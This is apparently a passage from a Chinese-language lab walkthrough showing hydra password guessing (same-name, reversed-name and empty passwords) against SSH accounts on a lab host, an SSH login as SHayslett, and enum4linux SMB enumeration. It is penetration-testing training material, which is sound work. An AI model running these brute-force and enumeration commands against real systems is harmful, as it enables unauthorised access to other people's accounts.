 ### ssh 服务

根据上面获得的能够登录的所有用户 ssh\_user\_name，利用 hydra 检测是否存在同名口令、同名逆口令、空口令等

```plain
hydra -L ssh_user_name -e nsr ssh://192.168.179.149
```

[![](assets/1699929525-04d21d2c5356067c7d9076f2704c2a62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112135100-74e3e536-811f-1.png)

利用用户名 SHayslett 和密码进行 ssh 登录：

```plain
ssh SHayslett@192.168.179.149
```

[![](assets/1699929525-646a8de51b5f006592705390e844c53d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112135116-7efcf1f2-811f-1.png)

### smb 服务

使用 enum4linux 探测 smb 服务

```plain
enum4linux -a 192.168.179.149 | tee smb_result
```

